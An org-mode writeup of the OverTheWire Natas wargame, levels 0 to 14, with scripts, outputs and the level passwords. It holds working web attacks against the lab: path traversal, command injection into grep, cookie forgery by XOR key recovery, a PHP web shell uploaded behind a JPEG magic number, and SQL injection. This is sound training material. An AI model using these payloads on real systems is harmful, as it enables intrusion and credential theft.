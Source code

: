 #+TITLE: Natas (OverTheWire)
#+AUTHOR: Bryan Rinders
#+DATE: <2023-02-24 Fri>
#+OPTIONS: num:nil
#+PROPERTY: header-args :results output :exports both :eval never-export
#+PROPERTY: header-args:python :session *natas-python-session*

* Introduction
This is a writeup for the [[https://overthewire.org/wargames/][overthewire.org]] war game Natas. To start a level 
visit the URL http://natasX.natas.labs.overthewire.org, and login with 
username: natasX and the password found in the previous level, where X is the 
level number. 
All passwords for the next level are also stored in
/etc/natas_webpass/natasX, where X is the number of the level.

In the scripts below =PASS_NATASX= is the password for level =X= as
found in the previous level.

* Level 0
View the source page and find the password:

#+NAME: lvl0
#+BEGIN_SRC sh
  curl -u natas0:natas0 "http://natas0.natas.labs.overthewire.org/" | grep natas1
#+END_SRC

#+RESULTS: lvl0
: <!--The password for natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 -->

#+NAME: pass1
#+begin_src sh :var pass=lvl0 :exports none
  echo $pass | cut -d ' ' -f 6
#+end_src

#+RESULTS: pass1
: g9D9cREhslqBKtcA2uocGHPfMZVzeFK6

* Level 1
View the source page by using a short cut key (for me =Ctrl+u=):

#+NAME: lvl1
#+BEGIN_SRC sh :var PASS_NATAS1=pass1
  curl -u natas1:"${PASS_NATAS1}" "http://natas1.natas.labs.overthewire.org/" | grep natas2
#+END_SRC

#+RESULTS: lvl1
: <!--The password for natas2 is h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7 -->

#+NAME: pass2
#+begin_src sh :var pass=lvl1 :exports none
  echo $pass | cut -d ' ' -f 6
#+end_src

#+RESULTS: pass2
: h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7

* Level 2
Again view the source page. There is a line with a link to an image 

#+BEGIN_SRC 
<img src="files/pixel.png">
#+END_SRC

This links to "http://natas2.natas.labs.overthewire.org/files/pixel.png", note 
the =/files/pixels.png=. Which means it might be possible to explorer the =/files=
directory. Exploring "http://natas2.natas.labs.overthewire.org/files/"
it shows that there it another file called =users.txt= which contains the
password for the next level.

#+NAME: lvl2
#+BEGIN_SRC sh :var PASS_NATAS2=pass2
  curl -u natas2:"${PASS_NATAS2}" "http://natas2.natas.labs.overthewire.org/files/users.txt" | grep natas3
#+END_SRC

#+RESULTS: lvl2
: natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

#+NAME: pass3
#+begin_src sh :var pass=lvl2 :exports none
  echo "${pass}" | cut -d : -f 2
#+end_src

#+RESULTS: pass3
: G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

* Level 3
View the source and find the line

#+BEGIN_SRC 
<!-- No more information leaks!! Not even Google will find it this time... -->
#+END_SRC

which hints at the =robots.txt= file that contains the directories
webcrawlers are not supossed to visit. From the =robots.txt= we get
the directory =/s3cr3t/= which contains the =users.txt= file with the
password for natas4.

#+NAME: lvl3
#+BEGIN_SRC sh :var PASS_NATAS3=pass3
curl -u natas3:"${PASS_NATAS3}" "http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt" | grep natas4
#+END_SRC

#+RESULTS: lvl3
: natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

#+NAME: pass4
#+begin_src sh :var pass=lvl3 :exports none
  echo "${pass}" | cut -d : -f 2
#+end_src

#+RESULTS: pass4
: tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

* Level 4
NOTE: from level 4 and onwards the code snippets are written in
=Python= unless otherwise specified.

To get access to the password we need to come from the natas5 website as is 
metioned on the website when first loging in. 

#+BEGIN_SRC 
Access disallowed. You are visiting from "" while authorized users should come 
only from "http://natas5.natas.labs.overthewire.org/"
#+END_SRC

It is possible to simulate this by setting the *referer* in the header of the get
request to the natas5 website.

First import some libraries and define a function that can find the
password in the raw html text these will be used throughout the
levels:

#+NAME: imports
#+begin_src python :results none :export code
  import requests
  from requests.auth import HTTPBasicAuth
  import re
#+end_src

#+NAME: findpswd
#+BEGIN_SRC python :results none :exports code
  def find_pswd(text):
      """ Find the line with the password in the html text. """
      lines = text.split('\n')
      bools = list(map(lambda x : "password" in x, lines))
      for (b,line) in zip(bools,lines):
          if b:
              return line
#+END_SRC

Lets also define a function that will return the user and the url that
we will need for every level.

#+begin_src python :results none :exports code
  def user_url(lvl: int):
      """ Return the user name and url for LVL. """
      user = "natas" + str(lvl)
      url = f"http://natas{lvl}.natas.labs.overthewire.org/"
      return user, url
#+end_src

Now the code that changes the referer to natas5:

#+NAME: lvl4
#+BEGIN_SRC python :var PASS_NATAS4=pass4
  user, url = user_url(4)
  headers = {'referer': 'http://natas5.natas.labs.overthewire.org/'}

  # get request with the referer set to natas5
  r = requests.get(url, headers=headers, auth=HTTPBasicAuth(user,PASS_NATAS4))

  print(find_pswd(r.text))
#+END_SRC

#+RESULTS: lvl4
: Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

#+NAME: pass5
#+BEGIN_SRC sh :var pass=lvl4 :exports none
  echo "${pass}" | cut -d ' ' -f 8
#+END_SRC

#+RESULTS: pass5
: Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

* Level 5
After logging in the web page shows:

#+BEGIN_SRC 
Access disallowed. You are not logged in
#+END_SRC

Lets inspect the headers to see what is happening

#+NAME: lvl5.1
#+BEGIN_SRC python :var PASS_NATAS5=pass5
  user, url = user_url(5)

  r = requests.get(url, auth=HTTPBasicAuth(user, PASS_NATAS5))
  print(r.headers)
#+END_SRC

#+RESULTS: lvl5.1
: {'Date': 'Wed, 22 Feb 2023 14:54:38 GMT', 'Server': 'Apache/2.4.52 (Ubuntu)', 'Set-Cookie': 'loggedin=0', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '368', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}

The output show that the the Set-cookie =loggedin=0=, if that is
changed to =loggedin=1= then that should give access to the password.

#+NAME: lvl5.2
#+BEGIN_SRC python :var PASS_NATAS5=pass5
  user, url = user_url(5)
  cookies = {'loggedin': '1'}

  # get request with the cookie set loggedin=1
  r = requests.get(url, cookies=cookies, auth=HTTPBasicAuth(user, PASS_NATAS5))
  print(find_pswd(r.text))
#+END_SRC

#+RESULTS: lvl5.2
: Access granted. The password for natas6 is fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR</div>

#+NAME: pass6
#+BEGIN_SRC sh :var pass=lvl5.2 :exports none
  echo "${pass}" | cut -d ' ' -f 8 | sed "s|</div>||"
#+END_SRC

#+RESULTS: pass6
: fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

* Level 6
After logging in we are prompted to input a secret. The page source
contains the line:

#+BEGIN_SRC 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
#+END_SRC

Then going to the url
http://natas6.natas.labs.overthewire.org/index-source.html
contains:

#+BEGIN_SRC 
include "includes/secret.inc";
#+END_SRC

follow this to the url
http://natas6.natas.labs.overthewire.org/includes/secret.inc, which
reveals the secret: =FOEIUWGHFEEUHOFUOIU=

#+NAME: lvl6
#+BEGIN_SRC python :var PASS_NATAS6=pass6
  user, url = user_url(6)
  post_data = {"secret": "FOEIUWGHFEEUHOFUOIU", "submit": "submit"}

  r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS6), data=post_data)

  print(find_pswd(r.text))
#+END_SRC

#+RESULTS: lvl6
: Access granted. The password for natas7 is jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

#+NAME: pass7
#+BEGIN_SRC sh :var pass=lvl6 :exports none
  echo "${pass}" | cut -d ' ' -f 8
#+END_SRC

#+RESULTS: pass7
: jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

* Level 7
The source page says:

#+BEGIN_SRC 
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
#+END_SRC

and there are two links, =Home= and =About=. When you click on =Home=
or =About= the url changes to =/index.php?page=Home= and
=/index.php?page=About= respectively. Changing either =Home= or =About=
with the path to the password file will give access to the password,
i.e. =/index.php?page=/etc/natas_webpass/natas8=. This is know as a
*path traversal attack*.

#+NAME: lvl7
#+BEGIN_SRC python :var PASS_NATAS7=pass7
user, url = user_url(7)
pswd = "7z3hEENjQtflzgnT29q7wAvMNfZdh0i9"
path = "/index.php?page=/etc/natas_webpass/natas8"

# get request with the referer set to natas5
r = requests.post(url+path, auth=HTTPBasicAuth(user,PASS_NATAS7))

print(r.text.split('\n')[-7])
#+END_SRC

#+RESULTS: lvl7
: a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

* Level 8
The source page again has a link to:

#+BEGIN_SRC 
index-source.html
#+END_SRC

which reveals an encoded secret:

#+BEGIN_SRC
3d3d516343746d4d6d6c315669563362
#+END_SRC

#+RESULTS:

it is encoded with this function:

#+BEGIN_SRC 
function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}
#+END_SRC

All we need to do is reverse this function on the given encoded secret:

#+NAME: lvl8.1
#+BEGIN_SRC python :var PASS_NATAS=lvl7
  from base64 import b64decode

  secret = "3d3d516343746d4d6d6c315669563362"

  # convert hex to binary
  binary_secret = bin(int(secret, 16))

  # convert the bits to a string of chars
  char_secret = ''.join(chr(int(binary_secret[i*8:i*8+8],2)) for i in range(len(binary_secret)//8))

  # reverse the string
  reverse_secret  = char_secret[::-1]

  # base64 decode the string
  decoded_secret = b64decode(reverse_secret).decode("ascii")
  print("The decoded secret is: " + decoded_secret)
#+END_SRC

#+RESULTS: lvl8.1
: The decoded secret is: oubWYf2kBq

#+NAME: decoded_secret
#+BEGIN_SRC sh :var decoded_secret=lvl8.1 :exports none
  echo "${decoded_secret}" | cut -d ' ' -f 5
#+END_SRC

#+RESULTS: decoded_secret
: oubWYf2kBq

Now we can POST the =DECODED_SECRET:= src_sh[:var s=decoded_secret
:results output :exports results]{echo "$s" | cut -d ' ' -f 5}
{{{results(=oubWYf2kBq=)}}}, to get the password.

#+NAME: lvl8.2
#+BEGIN_SRC python :var DECODED_SECRET=decoded_secret PASS_NATAS8=lvl7
  user, url = user_url(8)
  post_data = {"secret": DECODED_SECRET, "submit": "submit"}

  # get request with the referer set to natas5
  r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS8), data=post_data)

  print(find_pswd(r.text))
#+END_SRC

#+RESULTS: lvl8.2
: Access granted. The password for natas9 is Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

#+NAME: pass9
#+BEGIN_SRC sh :var pass=lvl8.2 :exports none
  echo "${pass}" | cut -d ' ' -f 8
#+END_SRC

#+RESULTS: pass9
: Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

* Level 9
On the site there is a search box that searches for words. Trying out
some words in the search box shows that it actual does find all words
containing the searched string. Inspecting the source reveals this
piece of code:

#+BEGIN_SRC 
if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
#+END_SRC

So it is using =grep= to find results from =dictionary.txt=, but
=grep= allows for multiple input files to search in and so if we input
an extra file into the search box then it will search that file as
well as =dictionary.txt=. The file we want to include in the submit
box is =etc/natas_webpass/natas10=, the file that holds the password
for the next level.

#+NAME: lvl9
#+BEGIN_SRC python :var PASS_NATAS9=pass9
  user, url = user_url(9)
  post_data = {"needle": "'' /etc/natas_webpass/natas10", "submit": "submit"}

  r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS9), data=post_data)

  # use regex to find the password
  print(re.findall('/etc/natas_webpass/natas10:(.*)', r.text)[0])
#+END_SRC

#+RESULTS: lvl9
: D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

* Level 10
This level is similar to the previous level but it checks if there are
"illegal" characters in the input.

#+BEGIN_SRC 
if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
#+END_SRC

From the regular expression in 'preg_match' the illegal characters are
=;= and =&=. Since those characters weren't used in the previous level
it is possible to re-use the 'needle' from level 9.

#+NAME: lvl10
#+BEGIN_SRC python :var PASS_NATAS10=lvl9
user, url = user_url(10)
post_data = {"needle": "'' /etc/natas_webpass/natas11", "submit": "submit"}

r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS10), data=post_data)

print(re.findall('/etc/natas_webpass/natas11:(.*)', r.text)[0])
#+END_SRC

#+RESULTS: lvl10
: 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

* Level 11
** Intro
From the source code, these are the most important
functions/variables:

#+BEGIN_SRC 
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}
#+END_SRC

The =xor_encrypt()= function simply encrypts the input with a censored
key. And the =saveData()= creates a cookie from the
=$defaultdata=. The first thing to do is get a cookie. With this
cookie and the =defaultdata= it is possible to exploit a property of
the xor function, namely: =plaintext ^ key = ciphertext= (where =^= is
the xor function) can be rewritten to solve for the key like
=plaintext ^ ciphertext = key=. Hence we can find the key with
~plaintext = $defaultdata~ and ~ciphertext = cookie~.

** Get the cookie (cipher text)
So lets get a cookie:

#+NAME: lvl11.1
#+BEGIN_SRC python :var PASS_NATAS11=lvl10
  user, url = user_url(11)
  data = {"bgcolor": "#000000", "submit": "Set color"}

  r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS11), data=data)

  print(r.headers)
#+END_SRC

#+RESULTS: lvl11.1
: {'Date': 'Wed, 22 Feb 2023 17:18:39 GMT', 'Server': 'Apache/2.4.52 (Ubuntu)', 'Set-Cookie': 'data=MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5ofnh8e354bjY%3D', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '486', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}

The =Set-Cookie= value is what we are looking for.

#+NAME: lvl11.2
#+begin_src python
  cookie = r.headers['Set-Cookie'][5:]
  print(f'The cookie is: {cookie}')
#+end_src

#+RESULTS: lvl11.2
: The cookie is: MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5ofnh8e354bjY%3D

This cookie is url encode as can be seen by the =%3D= at the end. Lets
decode it:

#+NAME: lvl11.3
#+BEGIN_SRC python
from urllib.parse import unquote

url_decoded_cookie = unquote(cookie)
print(f'The url decoded cookie is:\n{url_decoded_cookie}')
#+END_SRC

#+RESULTS: lvl11.3
: The url decoded cookie is:
: MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5ofnh8e354bjY=

The === show that the decoded cookie is likely base 64 encoded, let
decode it.

#+NAME: lvl11.4
#+begin_src python
  from base64 import b64decode

  base64_decoded_cookie = b64decode(url_decoded_cookie).hex()
  print(f'The cookie/cipher text in hex is:\n{base64_decoded_cookie}')
#+end_src

#+RESULTS: lvl11.4
: The cookie/cipher text in hex is:
: 306c3b242439382d383d3f23392a6a766920276e676c2a2b28212423396c726e687e787c7b7e786e36

** Get the plain text
Now to get the plaintext that is used in the =xor_encrypt()= json
encode the =defaultdata= first.

#+NAME: lvl11.5
#+BEGIN_SRC php :results output :exports both :eval never-export
// this is php code:
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
json_encode($defaultdata);
echo (json_encode($defaultdata));
#+END_SRC

#+RESULTS: lvl11.5
: {"showpassword":"no","bgcolor":"#ffffff"}

** Find the encryption key
Now use the plain and cipher text in a slightly rewritten
=xor_encrypt()= to find the key.

#+NAME: lvl11.6
#+BEGIN_SRC php :results output :exports both :eval never-export
// this is php code:
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in, $key) {
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

$plain = json_encode($defaultdata);
$cipher = hex2bin('0a554b221e00482b02044f2503131a70531957685d555a2d12185425035502685247087a414708680c');

echo ('The key is: ' . xor_encrypt($plain, $cipher));

#+END_SRC

#+RESULTS: lvl11.6
: The key is: qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq!n'!nJq

There is a pattern in the key which means that the key that was used
is the substring =qw8J=.

** Get the password for natas12
To get the password change the =showpassword= value from the array
=$defaultdata= to "yes". Then encrypt the array with the key
=qw8J=. This will result in the value that should be send as the
cookie and will give the password.

#+NAME: lvl11.7
#+BEGIN_SRC php :results output :exports both :eval never-export
// this is php code:
$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

function xor_encrypt($in, $key) {
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

$plain = json_encode($defaultdata);
$key = 'qw8J';

echo ('The cipher text is: ' . base64_encode(xor_encrypt($plain, $key)));

#+END_SRC

#+RESULTS: lvl11.7
: The cipher text is: ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK

Use the just computed cipher text as the cookie and send a get request
with the cookie attached. This will show the password for Natas 12.

#+NAME: lvl11.8
#+BEGIN_SRC python :var PASS_NATAS11=lvl10
  user, url = user_url(11)
  data = {"bgcolor": "#000000", "submit": "Set color"}
  cookies = {'data': 'ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK'}

  # get request with the referer set to natas5
  r = requests.get(url, cookies=cookies, auth=HTTPBasicAuth(user, PASS_NATAS11))

  print(re.findall('The password for natas12 is (.*)<br>', r.text)[0])
#+END_SRC

#+RESULTS: lvl11.8
: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

* Level 12
The webpage asks for .jpg files to be uploaded. After uploading a
picture a link is given to the location, =upload/<randomstring>.jpg=,
of the uploaded file. I tried a few path traversal attacks,
e.g. =/upload/../etc/natas_webpass/natas13=, but all failed. So maybe
it is possible to upload some malicious php code instead of a jpg.

Create a php file called =evil.php= that contains:
#+BEGIN_SRC 
<?php echo (file_get_contents('/etc/natas_webpass/natas13')); ?>
#+END_SRC
This will print the password for natas13.

Now the python script that uploads =evil.php= to the website and gets
the randon link to the uploaded file location, which should contain
the password for natas13.

#+NAME: lvl12.1
#+BEGIN_SRC python :var PASS_NATAS12=lvl11.8
  user, url = user_url(12)

  evil = {'uploadedfile': open('/home/br/Pictures/shots/evil.php', 'rb')}

  r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS12), files=evil, data={'filename': 'evil.php'})

  path = re.findall('href="(upload/.*.php)">', r.text)[0]
  print(f'The path to our uploaded file: {path}')
#+END_SRC

#+RESULTS: lvl12.1
: The path to our uploaded file: upload/tdxpbrtuna.php

#+NAME: lvl12.2
#+BEGIN_SRC python :var PASS_NATAS12=lvl11.8
  r1 = requests.get(url+path, auth=HTTPBasicAuth(user, PASS_NATAS12))
  # The password for natas13:
  print(r1.text)
#+END_SRC

#+RESULTS: lvl12.2
: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

* Level 13
This level is similar to level 12 but it uses =exif_imagetype= to
check if the file being uploaded is actually an image. It does this by
checking the *magic number* at the beginning of the file. So if we can
insert this /magic number/ to the beginning of our php script than it
will pass the =exif_imagetype= check will the server will execute the
contents of the file. We will insert the /magic number/ by letting
python write it to the file in bytes. The rest of the attack is very
similar to level 12. The /magic number/ is =\xFF\xD8\xFF\xE0=.

#+NAME: lvl13.1
#+BEGIN_SRC python :var PASS_NATAS13=lvl12.2
  user, url = user_url(13)
  
  # write the magic number and the to be executed php to evilFile
  evilFile = '/home/br/Pictures/shots/evil3.php'
  fh = open(evilFile, 'wb')
  fh.write(b'\xFF\xD8\xFF\xE0' + b'<? passthru($_GET["cmd"]); ?>')
  fh.close()

  evil = {'uploadedfile': open(evilFile, 'rb')}

  # Post the evilFile to the server
  r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS13), files=evil, data={'filename': 'evil3.php'})

  path = re.findall('href="(upload/.*.php)">', r.text)[0]
  print(f'The path to our uploaded file: {path}\n')
#+END_SRC

#+RESULTS: lvl13.1
: The path to our uploaded file: upload/4ttajmtyw5.php

#+NAME: lvl13.2
#+BEGIN_SRC python :var PASS_NATAS13=lvl12.2
  r1 = requests.get(url+path+'?cmd=cat /etc/natas_webpass/natas14', auth=HTTPBasicAuth(user, PASS_NATAS13))
  # The password for natas13
  print(r1.text[4:])
#+END_SRC

#+RESULTS: lvl13.2
: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

* Level 14
This level has a login form. The source code reveals the use of very
simple sql queries, which means we could try some [[https://en.wikipedia.org/wiki/SQL_injection#Incorrectly_constructed_SQL_statements][sql injections]]. The
very first try immediately worked, supplying ~" or 1=1 --~ for both
the username and the password.

#+NAME: lvl14
#+BEGIN_SRC python :var PASS_NATAS14=lvl13.2
  user, url = user_url(14)
  data = {'username': '" or 1=1 --', 'password': '" or 1=1 --'}

  r = requests.post(url, auth=HTTPBasicAuth(user, PASS_NATAS14), data=data)

  print(re.findall('password for natas15 is (.*)<br>', r.text)[0])

#+END_SRC

#+RESULTS: lvl14
: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

* COMMENT Level 15

#+BEGIN_SRC python :var PASS_NATAS15=lvl14
  user, url = user_url(15)
  data = {'username': '" or 1=1 --', 'password': '" or 1=1 --'}

  r = requests.post(url, auth=HTTPBasicAuth(user,pswd), data=data)

  print(r.text)

  # print(re.findall('password for natas15 is (.*)<br>', r.text)[0])

#+END_SRC

